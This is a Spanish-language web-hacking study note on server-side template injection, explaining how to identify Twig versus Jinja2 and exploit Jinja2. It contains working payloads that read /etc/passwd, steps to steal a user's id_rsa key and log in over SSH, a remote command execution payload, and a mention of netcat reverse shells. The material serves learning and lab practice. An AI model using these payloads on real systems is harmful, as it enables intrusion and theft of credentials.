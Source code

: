 ![SSTI Diagrama]({{ 'assets/img/apuntes/hackingweb/sstiflujo.png' | relative_url }}){: .center-image }

Por ejemplo, cargamos el \{\{7\*7\}\} evalua la operación, resultado 49, ahora inyectaremos el payload \{\{7\*'7'\}\}, si devuelve 49 es Twig, si en cambio devuelve 7777777 es jinja2. Todo esto se puede ver en payloadsAllTheThings en github. También esta explicado muy bien en: https://riteshpuvvada.github.io/posts/ssti/

### **Explotación**

Una vez identificado el motor de plantillas; lee, informate y entiende el funcionamiento de ese motor, sintaxis básica, tampoco tienes que convertirte en un profesional, aunque si la explotación se te pone díficil pues igual tienes que convertirte en un experto.

Suelo ir a [payloadsAllTheThings][patt] -la ostia de repositorio github-. Estaría guay que al menos te detengas y entiendas lo que hace, y si no bueno..cuando te falle y te toque investigar no te quedará otra e igual aprendes con más ganas quien sabe, a mi me pasa más esto último.

Ejemplo de explotación, la máquina es vulnerable a ssti y la plantilla que corre por detrás es ninja2, que es la que mas veces me he encontrado.

**Payload para leer los archivos en ninja2:**  

\{\{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() \}\}

Para el resto de lineas de comandos del repositorio de [payloadsAllTheThings][patt] necesitamos como un número de índice de la clase -que se puede encontrar con otros comandos-, el de [40] de la foto de abajo. Leído y más info en https://riteshpuvvada.github.io/posts/ssti/.


![Jinja2 Read]({{ 'assets/img/apuntes/hackingweb/jinja2-1.png' | relative_url }}){: .center-image }

Intentamos leer el archivo /etc/passwd, ¿qué funciona y existen usuarios?: entonces buscamos si tienen clave privada **id_rsa** leyendo en /home/USER/.ssh/id_rsa
Esto si estamos contra un Linux claro, en Windows la cosa cambia.
Contra Windows ya probaría el rce(remote command execution) e intentar lanzarnos reverse con ayuda de netcat o el nissang.

Si esta el id_rsa: Te lo guardas en local y desde la terminal:  
``` 
> chmod 600 id_rsa  
> ssh -i id_rsa USER@IPOBJETIVO
```  
Y con suerte ya estaría dentro.

**Payload para RCE en ninja2:**  

\{\{ self._TemplateReference__context.cycler.\__init__.__globals__.os.popen('id').read() \}\}

Si no te funciona el anterior ves probando en orden por las lineas de la siguiente imagen:


![Jinja2 RCE]({{ 'assets/img/apuntes/hackingweb/jinja2-2.png' | relative_url }}){: .center-image }

También puedes probar el de [payloadsAllTheThings][patt], el que pone **"Exploit the SSTI by calling Popen without guessing the offset"**, está modificado, he cambiado el popen por system y quitado buena parte de lo que sigue, quedaría añadir mi ip y si da problemas escapar las doble comillas:  
......['\_\_import__']\('os').system(“ping -c 1 MIIP”


[hacktricks]: https://book.hacktricks.xyz/welcome/readme
[patt]: https://github.com/swisskyrepo/PayloadsAllTheThings 